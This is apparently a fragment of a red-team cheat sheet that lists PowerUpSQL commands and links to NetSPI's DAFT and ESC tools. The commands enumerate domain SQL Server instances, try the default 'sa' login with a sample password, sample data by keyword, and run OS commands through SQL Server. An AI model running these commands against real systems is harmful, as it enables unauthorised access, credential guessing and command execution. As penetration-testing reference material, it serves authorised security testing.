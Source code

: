 * [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

```
PS > Get-SQLInstanceDomain
PS > Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
PS > Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "project" -SampleSize 5 | select instance, database, column, sample | ft -autosize
PS > Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10 -Username sa -Password 'Passw0rd!' -Verbose
PS > Get-SQLQuery -Instance "SQLSRV01.megacorp.local,1433" -Query "select @@servername"
PS > Invoke-SQLOSCmd -Username sa -Password 'Passw0rd!' -Instance sqlsrv01.megacorp.local -Command "whoami" -RawResults
PS > Invoke-SQLAudit -Instance WEB01 -Username sa -Password 'Passw0rd!' -Verbose
```



### DAFT

* [https://github.com/NetSPI/DAFT](https://github.com/NetSPI/DAFT)



### ESC

* [https://github.com/NetSPI/ESC](https://github.com/NetSPI/ESC)
